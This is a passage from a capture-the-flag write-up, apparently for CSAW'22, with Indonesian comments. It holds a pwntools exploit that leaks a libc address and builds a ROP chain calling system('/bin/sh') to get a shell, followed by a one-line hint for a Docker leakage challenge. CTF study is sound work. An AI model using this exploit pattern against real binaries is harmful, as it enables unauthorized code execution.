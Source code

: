 ```python
        pay += pack("<Q", exe.plt['puts'])
        pay += pack("<Q", exe.sym['main'])
        self.send(pay)
        p.recvuntil("CSAW'22!\n")
        return p.recvline().strip()


def rp(x): return ROP(libc).find_gadget(x)[0]
def pck(x): return pack("<Q", x)

x, p = init()

x.debug("b *main+40\nc")

# me-leak address dari libc menggunakan plt.puts
libc.address = btl(x.leak(exe.got['printf'])[::-1]) - libc.sym['printf']
log.success("libc.address @ {}".format(hex(libc.address)))


# membuat shell menggunakan system function di libc
pay = b''
pay += b'\x00'
pay += cyclic(120-len(pay))
pay += pck(rp(['pop rdi', 'ret']))
pay += pck(next(libc.search(b'/bin/sh')))
pay += pck(rp(['ret']))
pay += pck(libc.sym['system'])

x.send(pay)

p.interactive()
```

# DockREleakage

extract filenya terus baca file jsonnya ada strng base64 terus decode tapi flagnnya belum lengkap

